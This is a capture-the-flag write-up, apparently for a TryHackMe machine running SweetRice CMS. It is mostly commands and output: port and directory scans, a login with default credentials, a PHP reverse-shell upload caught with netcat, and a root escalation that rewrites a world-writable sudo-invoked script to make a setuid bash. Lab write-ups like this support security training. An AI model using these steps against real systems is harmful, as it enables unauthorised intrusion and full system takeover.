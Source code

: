 Target: 10.10.44.43

**Let's do initial scan with nmap**

    nmap -Pn -T4 -oA initial_scans 10.10.44.43
    PORT     STATE    SERVICE
    22/tcp   open     ssh
    80/tcp   open     http
    2910/tcp filtered tdaccess

================================

**Let's do initial scan with nmap** 
    
    nmap -Pn -p 80,22,2910 -A -oA full_scans 10.10.44.43
    PORT     STATE  SERVICE  VERSION
    22/tcp   open   ssh      OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
    | ssh-hostkey: 
    |   2048 49:7c:f7:41:10:43:73:da:2c:e6:38:95:86:f8:e0:f0 (RSA)
    |   256 2f:d7:c4:4c:e8:1b:5a:90:44:df:c0:63:8c:72:ae:55 (ECDSA)
    |_  256 61:84:62:27:c6:c3:29:17:dd:27:45:9e:29:cb:90:5e (ED25519)
    80/tcp   open   http     Apache httpd 2.4.18 ((Ubuntu))
    |_http-title: Apache2 Ubuntu Default Page: It works
    |_http-server-header: Apache/2.4.18 (Ubuntu)
    2910/tcp closed tdaccess

So it's an ubuntu os running ***apache 2.4.18*** and ***OpenSSH 7.2p2***

===============================

**Now let's run gobuster for some directory enumeraion**

    dir -u http://10.10.44.43// -w /usr/share/wordlists/dirb/common.txt 
    /content              (Status: 301) [Size: 312] [--> http://10.10.44.43/content/]
    /index.html           (Status: 200) [Size: 11321]
    /index.html           (Status: 200) [Size: 11321]
    /server-status        (Status: 403) [Size: 276]

We found ***/content*** after checking it out there is SweetRice operating.

===============================

**let's run the scan again on: http://10.10.44.43/content**

    gobuster dir -u http://10.10.44.43/content -w /usr/share/wordlists/dirb/common.txt

    /_themes              (Status: 301) [Size: 320] [--> http://10.10.44.43/content/_themes/]
    /as                   (Status: 301) [Size: 315] [--> http://10.10.44.43/content/as/]
    /attachment           (Status: 301) [Size: 323] [--> http://10.10.44.43/content/attachment/]
    /images               (Status: 301) [Size: 319] [--> http://10.10.44.43/content/images/]
    /inc                  (Status: 301) [Size: 316] [--> http://10.10.44.43/content/inc/]
    /index.php            (Status: 200) [Size: 2197]
    /js                   (Status: 301) [Size: 315] [--> http://10.10.44.43/content/js/]

Found login page on ***/as***
===============================

after searching the web for default creds, got the following creds:
User: manager
Password: Password123

===============================

After login in head over to Post section and add ***shell.php5*** revershe shell

Fire up nc in your terminal: nc -lvnp 1234

then head over to ***http://10.10.44.43/content/attachment/shell.php5***

Boom you got your reversee shell

===============================

**Let's run a find command to serach the user flag**

    find / -type f -name user.txt 2>/dev/null
    /home/itguy/user.txt
    cat /home/itguy/user.txt

# Like that we got your user flag

===============================

**Now let's do some enumeration for priv esc**

***mysql creds***
/home/itguy/mysql_login.txt
rice:randompass
# running lenepeas we found

    User www-data may run the following commands on THM-Chal:
        (ALL) NOPASSWD: /usr/bin/perl /home/itguy/backup.pl

===============================

    cat /home/itguy/backup.pl
    #!/usr/bin/perl

    system("sh", "/etc/copy.sh");

    cat /etc/copy.sh
    cp /bin/bash /tmp/bash;chmod +s /tmp/bash

    ls -al /etc/copy.sh
    -rw-r--rwx 1 root root 42 Jul  2 08:29 /etc/copy.sh

# We have write permision on this file so let's modify it.

    echo "cp /bin/bash /tmp/bash;chmod +s /tmp/bash" > /etc/copy.sh

# now let's execute backup.pl with sudo

    sudo /usr/bin/perl /home/itguy/backup.pl

# now let's use the suid to get the root:
    cd /tmp
    ./bash -p
    cat /root/root.txt